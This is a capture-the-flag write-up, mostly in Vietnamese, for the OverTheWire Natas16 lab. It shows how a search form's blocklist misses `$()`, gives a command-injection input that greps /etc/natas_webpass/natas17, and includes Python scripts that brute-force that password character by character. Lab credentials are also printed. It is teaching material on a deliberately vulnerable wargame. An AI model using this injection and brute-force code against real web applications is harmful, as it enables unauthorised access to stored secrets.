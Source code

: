 
* Lab: [Natas16](http://natas16.natas.labs.overthewire.org)
* Username: natas16
* Password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
* Descript: RCE vulnerability
* Purpose: Get credentials of Natas17 Labs (at /etc/natas_webpass/natas17) by exploiting RCE vulnerability
* Writeup by Me^^

![Ảnh chụp màn hình 2023-12-23 015444](https://hackmd.io/_uploads/SJ7soL7w6.png)

Truy cập lab được giao diện như trên ,ta thấy có một form search như trên, let's trying test:

![Ảnh chụp màn hình 2023-12-23 020904](https://hackmd.io/_uploads/BkWSyPQDa.png)

---
![Ảnh chụp màn hình 2023-12-23 021010](https://hackmd.io/_uploads/SJ0SkPmD6.png)

---
Xem qua source code : 
![Ảnh chụp màn hình 2023-12-23 021209](https://hackmd.io/_uploads/S18glPmDa.png)

Here's index-source.html:
![Ảnh chụp màn hình 2023-12-23 021331](https://hackmd.io/_uploads/BkMWlvQv6.png)

Giải thích sơ qua đoạn php xử lý trên: sau khi nhận được request từ form trên , key sẽ được gán giá trị từ  field input để thực hiện xử lý.

Các ký tự  đặc biệt `;`  `|`  `&` `\` `'`  `"` bị chặn khỏi chuỗi nhằm ngăn thực hiện injection attack. Tìm thêm các loại injection một lúc ,thấy rằng `$()` (lệnh thực thi và trả về kêt quả trên linux) không bị chặn khỏi input 
Thực hiện input sau : `$(grep a /etc/natas_webpass/natas17)Sunday` and press Search:

![Ảnh chụp màn hình 2023-12-23 024148](https://hackmd.io/_uploads/Hy7sUvXwa.png)


Có vẻ như `a` không có trong passwd , vì `$(...)` không trả về giá trị , do đó input chỉ chứa `Sunday`. Do brute-force 32 ký tự trong password với 62 ký tự `a-zA-Z0-9` khá là lâu, ta build code thực hiện tìm giá trị trong passwd sau: 

```
#python
import requests
import string

charactor = string.ascii_lowercase + string.ascii_uppercase + string.digits
url = "http://natas16.natas.labs.overthewire.org/"
natas16_username = "natas16"
natas16_passwd = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"
charString = ""

for char in charactor:
    print("Trying : "+char)
    #Thực hiện request tới web , thử từng giá trị char trong 62 ký tự chữ và số!
    response = requests.get(url, params={"needle": f"$(grep {char} /etc/natas_webpass/natas17)Sunday"}, auth=(natas16_username, natas16_passwd))
    content = response.text
    #Ký tự thỏa mãn được nối vào charString!
    if "Sunday" not in content:
        print(f"Tim thay: {char}")
        charString += char
print(charString)
```
![Ảnh chụp màn hình 2023-12-23 030311](https://hackmd.io/_uploads/BJ6qsPXDp.png)
Ta thu được chuỗi các ký tự trong password là: `bdhkmnsuvBCEHIKLRSUX0179` 
Sửa chút code ,thực hiện tìm ký tự lần lượt theo các vị trí sử dụng `grep ^` như sau: 
```
#python
import requests
import string

charactor = string.ascii_lowercase + string.ascii_uppercase + string.digits
url = "http://natas16.natas.labs.overthewire.org/"
natas16_username = "natas16"
natas16_passwd = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"
password = ""
charString = "bdhkmnsuvBCEHIKLRSUX0179"

while (len(password) < 32):
    for char in charString:
        print("Try: ", char)
        # Sử dụng grep ^ để kiểm tra chuỗi có bắt đầu bằng {password}{char} !{password} ban đầu rỗng
        response = requests.get(url, params={ "needle": f"$(grep ^{password}{char} /etc/natas_webpass/natas17)Sunday", "submit": "Search"}, auth=(natas16_username, natas16_passwd))
        content = response.text
        if "Sunday" not in content:
            print("Tim thay: ", char)
            # Nối từng ký tự tìm được vào password
            password += char
            break
print("Password: ", password)
```
Chạy code và đi uống nước , quay lại ta tìm được password cho lab Natas17: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd

![Ảnh chụp màn hình 2023-12-23 031624](https://hackmd.io/_uploads/HJR3CvmvT.png)

Do vậy , việc lọc đầu vào không triệt để gây ra những lỗ hổng dẫn đến việc thực thi code từ xa ,tiềm tàng khả năng gây ảnh hưởng đến hệ thống.
